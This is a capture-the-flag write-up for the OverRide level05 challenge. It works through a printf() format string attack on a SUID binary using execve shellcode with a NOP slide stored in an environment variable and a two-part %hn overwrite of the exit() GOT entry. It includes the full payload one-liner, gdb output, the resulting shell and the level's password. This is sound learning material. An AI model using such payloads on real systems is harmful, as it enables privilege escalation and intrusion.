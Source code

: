 # Level 5

## Vulnerability

Shellcode in environment variable + printf() format string attack

## Context

We find a binary with owner ```level06``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The program takes input from the stdin, and prints the output in lowercase. 
```
level05@OverRide:~$ ./level05
HELLO
hello
```
## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. <br />
However we do see a call to ```printf()```, which is vulnerable to string format exploits. <br />
We also see a call to ```exit()```.

### Exploit

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will:
- use a shellcode stored in an environmental variable 
- to run a string format attack to overwrite ```exit()``` 

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious shellcode / environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. <br />
Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). <br />
Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

Next, find the address of ```exit()```. The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Finally, let's check our buffer position for the ```printf()``` string format exploit. <br />
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

### Build exploit

Looks good... Let's sum it all up! <br />
Our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```
- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55346 bytes (of characters already written)``` -> ```10189```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05
```

Let's try it. 
```
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05

[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
